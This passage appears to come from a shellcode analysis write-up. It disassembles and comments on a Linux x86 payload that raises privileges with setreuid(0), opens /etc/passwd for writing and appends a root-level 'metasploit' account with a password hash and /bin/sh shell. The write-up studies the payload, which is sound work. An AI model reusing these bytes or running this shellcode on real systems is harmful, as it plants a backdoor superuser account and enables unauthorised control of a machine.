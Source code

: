 ```
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

Compared to the other shellcode analysed this is a bit larger; in any case let's stick to the statical analysis first and then verify the assumptions running it.

Let's analyze it statically commenting each instruction.

```
00000000  31C9              xor ecx,ecx           ; zeroing ecx register
00000002  89CB              mov ebx,ecx           ; zeroing ebx register
00000004  6A46              push byte +0x46       ; push on the stack the value 0x00000046 (70), that is the syscall number for setreuid (/usr/include/i386-linux-gnu/asm/unistd_32.h)
00000006  58                pop eax               ; retrieve the syscall number from the stack and place it in the eax register
00000007  CD80              int 0x80              ; interrupt to call the setreuid sycall with parameter sets to 0.
00000009  6A05              push byte +0x5        ; push on the stack the value 0x00000005 (5), that is the syscall number for open (/usr/include/i386-linux-gnu/asm/unistd_32.h)
0000000B  58                pop eax               ; retrieve the syscall number from the stack and place it in the eax register
0000000C  31C9              xor ecx,ecx           ; zeroing ecx register
0000000E  51                push ecx              ; push on the stack the value 0x00000000 that acts as end of string
0000000F  6873737764        push dword 0x64777373 ; push on the stack dwss
00000014  682F2F7061        push dword 0x61702f2f ; push on the stack ap// the double slash is for alignment, it won't impact the correct execution
00000019  682F657463        push dword 0x6374652f ; push on the stack cte/
0000001E  89E3              mov ebx,esp           ; move the pointer to /etc/passwd in ebx register
00000020  41                inc ecx               ; set ecx to 0x00000001 which means O_WRONLY (open for writing only) as stated in sys/fcntl.h
00000021  B504              mov ch,0x4            ; set ecx to 0x00000401 which means O_NONBLOCK and O_WRONLY as stated in sys/fcntl.h
00000023  CD80              int 0x80              ; interrupt to call the open sycall with parameter sets to /etc/passwd, 262145
00000025  93                xchg eax,ebx          ; swap the value of the register eax and ebx
00000026  E828000000        call 0x53             ; set the EIP address to 0x53 and push 0000002B on the stack (trick to have access to a string without having a disposal a data section)
```